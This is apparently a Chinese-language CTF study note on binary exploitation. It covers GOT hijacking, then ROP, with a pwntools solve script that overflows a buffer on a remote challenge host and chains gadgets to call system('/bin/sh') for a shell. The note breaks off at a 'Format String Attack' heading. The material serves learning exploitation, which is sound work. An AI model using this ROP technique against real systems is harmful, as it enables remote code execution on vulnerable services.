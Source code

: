 ![](https://hackmd.io/_uploads/B1NSjcHan.png)
## GOT Hijacking
### 利用條件
- No PIE
- Partial/No RELRO

### 原理
利用可以創造可以修改plt值的機會改成想要的函數之位址
## Return Oriented Programming
簡稱：ROP
戳一下->||ROP好好玩owob||
### 利用條件
- 要有良好的ret gadget
- PIE被關閉
- 沒有Stack Canary
- 採用get讀取char陣列，導致Overflow成立
### 原理
#### ROP Gadget
所謂ROP Gadget就是最後由ret結尾的程式碼片段
可以使用工具ROP gadget選擇適合的片段
#### 手法
利用BOF串接Gadget到stack上面並讓它執行在函數return的地方，進行pop、ret等各種操作後搭配給定的ret2code變數(必須是全域或者有辦法找到他的位址，不然無法再別的函數裡戳它)，最後跑到某個片段做執行(通常是system函數)
### 範例
- 題目大意：會有兩次輸入字串的機會，第一次提問時會用system中的echo輸出，並且輸入的是個全域變數的字串，第二個則是get進去一個Buffer
- 解法：
- 0.看到system先radare2找出是跑去哪裡call system的
![](https://hackmd.io/_uploads/rkKy8orp3.png)
- 1.利用ROPgadget抓ret結尾的東東
![](https://hackmd.io/_uploads/SybrPsSTn.png)
- 2.找出全域變數的位址
![](https://hackmd.io/_uploads/Hk2KDoSah.png)
事前準備結束~~
- 3.第一次輸入的時候payload為"/bin/sh\x00"(結尾\x00是為了做讀取到結尾的提示)
- 4.最後把剛剛的找到的ret gadget - 全域變數位址 - call system的路徑依序串起來，它就會用system執行剛剛變成payload的全域變數啦啦啦~~~~
- solve script
```python!=
from pwn import *
r=remote('120.114.62.213', 2120)
s=r.recvuntil('\n')
print(s)
r.sendline('/bin/sh\x00')
#global_variable defining
s=r.recvuntil('\n')
print(s)
payload=b'a'*0x38+p64(0x0000000000400773)+p64(0x601070)+p64(0x4006bf)
#buffer(0x30)+rdi(0x8)+ret2gadget(0x8)+gadgetValue(0x8)+gadget_to_system_function(0x8)
r.sendline(payload)
r.interactive()
```
圖：
![](https://hackmd.io/_uploads/HyaIuir6n.png)
wwww其實ROP感覺還有很多東西還沒學到，之後有空練owob
## Format String Attack